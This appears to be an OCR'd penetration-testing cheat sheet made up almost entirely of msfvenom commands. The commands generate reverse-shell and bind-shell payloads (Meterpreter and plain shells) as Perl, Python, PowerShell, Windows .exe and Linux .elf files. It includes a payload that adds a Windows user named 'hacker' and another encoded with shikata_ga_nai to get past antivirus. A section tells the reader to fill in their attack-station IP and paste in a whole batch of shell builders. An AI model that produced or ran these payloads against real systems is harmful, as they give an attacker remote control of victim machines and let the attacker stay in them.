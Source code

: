 ### Script Langauge payloads

#### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
#### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py

msfvenom -p python/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) > evilpython.py
```
#### powershell
```
msfvenom -p cmd/windows/reverse_powershell LHOST=(IP Address) LPORT=(Your Port) > evil3.bat
```
#### Encoders:
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
One can also use the -a to specify the architecture or the --platform



## msfvenom shells to find and replace and copy and paste quickly

create a folder in your web directory called shells-working

payload naming convention

```
OS//Comms direction//shell//port
```
find and replace the following

```
localhost = your attack station ip
```
copy and paste the following into a command shell after doing find and replace

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=localhost LPORT=600 -f exe > win86-reverse-met-600.exe

msfvenom -p windows/meterpreter/bind_tcp RHOST=localhost LPORT=601 -f exe > win86-bind-met-601.exe

msfvenom -p windows/adduser USER=hacker PASS=Passw0rd123! -f exe > win86-adduser.exe

msfvenom -p windows/shell/reverse_tcp LHOST=localhost LPORT=602 -f exe > prompt.exe

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=localhost LPORT=603 -f elf > lin86-reverse-met-603.elf

msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=localhost9 LPORT=604 -f elf > lin86-bind-met-604.elf

msfvenom --platform linux --arch x86 -f elf --encoder generic/none --payload linux/x86/shell_reverse_tcp LHOST=localhost LPORT=605 > lin-unix86-term-genrev-605.elf

msfvenom --platform linux --arch x64 -f elf --encoder generic/none --payload linux/x64/shell_reverse_tcp LHOST=localhost LPORT=606 > lin-unix64-term-genrev-606.elf

msfvenom --platform linux --arch x86 -f elf --encoder generic/none --payload linux/x86/shell_bind_tcp LHOST=localhost LPORT=607 > lin-unix86-term-genbind-607.elf

```